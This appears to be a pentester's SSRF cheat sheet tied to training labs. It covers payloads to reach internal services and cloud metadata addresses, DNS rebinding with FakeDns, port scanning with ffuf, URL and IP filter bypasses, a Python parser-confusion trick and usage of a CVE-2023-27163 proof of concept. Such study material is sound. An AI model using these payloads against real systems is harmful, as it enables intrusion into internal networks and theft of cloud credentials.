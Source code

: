 # Server-Side Request Forgery (SSRF)

<div class="row row-cols-lg-2"><div>

#### Common SSRF

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![basic_ssrf](../../../../_badges/ps-lab/ssrf/basic_ssrf.svg)](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrf_with_blacklist](../../../../_badges/ps-lab/ssrf/ssrf_with_blacklist.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
[![ssrf_with_openredirect](../../../../_badges/ps-lab/ssrf/ssrf_with_openredirect.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
[![ssrf_out_of_band](../../../../_badges/ps-lab/ssrf/ssrf_out_of_band.svg)](https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

The most common example of a SSRF is to access a remote server. This may expose internal headers, be exploited for a DoS, or further exploited to map and access internal services.

```text!
GET /?download=https://<burp suite collaborator domain>
```

```text!
Referrer: https://<burp suite collaborator domain>
```

#### SSRF With Redirection

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

While mainly used to bypass filters, we can use HTML or PHP redirections. Python "requests" doesn't follow redirections by default.

```html!
<!-- input: /?download=https://example.com, returns 127.0.0.1 -->
<?php header('Location: http://127.0.0.1/'); ?>
```

#### DNS Rebinding

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

While mainly used to bypass filters, we can rebind a domain to point to another domain or IP dynamically <small>(we abuse of a low TTL)</small>. 

* [rebinder](https://lock.cmpxchg8b.com/rebinder.html) <small>(website, TTL=10)</small>
* [DNSrebinder](https://github.com/mogwailabs/DNSrebinder) <small>(0.1k ⭐)</small>
* [FakeDns](https://github.com/Crypt0s/FakeDns) <small>(0.6k ⭐, TTL>=0)</small>
* [singularity](https://github.com/nccgroup/singularity) <small>(1.1k ⭐, web client and GOLang server)</small>.
* ``s-1.1.1.1-127.0.0.1-<unique_seed>-fs-e.d.rebind.it``

<details class="details-n">
<summary>Example Scenario</summary>

A webserver makes two SSRF calls, the first to check if resource is valid, the second to process the resource. 

We will create a domain called `rebinding.example.com` record pointing to a DNS server that we own `ns1337.example.com YOUR_SERVER_IP` on which the script will run.

```
rebinding IN NS ns1337.example.com.
ns1337 IN A YOUR_SERVER_IP
```

Disable any service using port 53. Install [FakeDns](https://github.com/Crypt0s/FakeDns).

```shell!
$ DEST="$HOME/tools/fakedns"
$ git clone -b "master" https://github.com/Crypt0s/FakeDns.git $DEST
$ ln -s $DEST/fakedns.py $HOME/.local/bin/fakedns
```

For our use case, to rotate the IP between every request:

```shell!
$ cat test.conf
A rebinding.example.com 1.1.1.1,127.0.0.1
# alternative: A rebinding.example.com 1.1.1.1 0%127.0.0.1
$ fakedns -c test.conf --rebind # Run The DNS Server
```

* Input: `http://rebinding.example.com/admin`
</details>

</div><div>

#### Exploit other protocols 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

A few protocols aside from HTTPS may yield results.

* `ftp://` to connect to a FTP server
* `file://some/file/on/the/target` when supported ([files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md))

<br>

#### Access Internal Services 🗺️

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

You may be able to query internal IPs or internal websites. Aside from localhost, make sure to test interesting IPs in cloud environments.

<br>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div></div>

<hr class="sep-both">

## SSRF Filter Bypass

<div class="row row-cols-lg-2"><div>

#### SSRF Filter Bypass — Starting with

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

A filtering "starting with" without a trailing slash can be bypassed:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
* `https://example.com#malicious.website`
* `https://example.com?malicious.website`
* `https://example.com/&malicious.website`
* `https://example.com/;malicious.website`

🛡️ Add a trailing slash to any starting with rule.

<br>

#### SSRF Filter Bypass — IP Filtering

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

There are multiple representations of `127.0.0.1` or `169.254.169.254`.

*  `0`, `00`, `000[...]0`, `0.0.0.0` (any IP, which may be localhost)
* `2130706433` (decimal), `017700000001` (octal), `0x7f000001` (hex)
* `127.1` (IP shortening), `127.00[...]00.1` (IP prolonging)
* `::1`, `::ffff:127.0.0.1` (IPV6)

Common domains for convenience: [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), [firefox.fr](http://firefox.fr/).

For all IPs, use: [rebinder](https://lock.cmpxchg8b.com/rebinder.html) with two times the same IP.
</div><div>

#### SSRF Filter Bypass — HTTP Parser Confusion 🐐

In Python, the `requests` module uses a old version of URLLIB. The following URL `"https://example.com\@@127.0.0.1/../flag"` is interpreted differently between `requests` and `urllib` ([src](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)):

* `host=127.0.0.1\@@example.com path=/../flag` with URLLIB3+
* `host=127.0.0.1 path=/@@example.com/../flag` with URLLIB3

With this trick, you can bypass this dummy code:

```py
URL = "https://127.0.0.1\@@example.com/../flag"
hostname = urllib.parse.urlparse(URL)
# Will verify 127.0.0.1\@@example.com
if hardened_check_on_hostname(hostname):
    raise Exception()
# Will fetch 127.0.0.1/flag
print(requests.get(URL).text)
```

#### SSRF Filter Bypass — Open Redirect or XSS

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrf_with_openredirect](../../../../_badges/ps-lab/ssrf/ssrf_with_openredirect.svg)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

We may leverage a vulnerability such as a XSS or an Open Redirect.

#### SSRF Filter Bypass — Double URL Encoding

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try double URL-encoding characters, targeting URLs that are decoded multiple times, mostly due to multiple manipulations.

#### SSRF Filter Bypass — Case Toggling

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try toggling the case for case-insensitive hosts.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # sent to listener URL
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:fport 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```py
ip = socket.gethostbyname("example.com") # extracted from input
ip = ipaddress.ip_address(ip)
if ip in ipaddress.ip_network('127.0.0.0/8'): # check others!!!
    return False
if ipaddress.ip_address(ip).is_loopback:
    return False # only check if 127.0.0.1
```
</div><div>
</div></div>